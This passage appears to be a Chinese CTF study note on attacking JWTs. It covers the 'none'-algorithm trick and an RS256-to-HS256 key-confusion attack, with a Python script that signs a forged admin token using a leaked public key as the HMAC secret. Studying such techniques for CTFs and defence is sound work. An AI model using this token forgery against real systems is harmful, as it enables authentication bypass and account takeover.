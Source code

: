 然后对header单独进行base64编码（注意去掉末尾的=）

我在刷题的时候，遇到了小写的 `none` 不成功的情况，改成大写的 `None` 就可以了。（但是后续看官方题解，好像小写的也可以，目前为止这块不是特别清楚。）

### 公钥泄漏

直接用python下的hmac&hashlib库，对header和body进行新的签名，参考我刷题时写的代码

```python
import base64



import hmac



import hashlib





with open('public.pem','rb') as f:



public_key = f.read()



print(public_key)



msg = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9Cg.eyJsb2dpbiI6ImFkbWluIn0K'.encode('utf-8')



sig = base64.urlsafe_b64encode(hmac.new(public_key,msg,hashlib.sha256).digest()).decode('utf-8').rstrip('=')



# sig = base64.urlsafe_b64encode(hmac.new(bytes(public_key, encoding='utf-8'),msg,hashlib.sha256).digest()).decode('utf-8').rstrip('=')





print(type(msg))



print(msg.decode('utf-8') + '.' + sig)
```
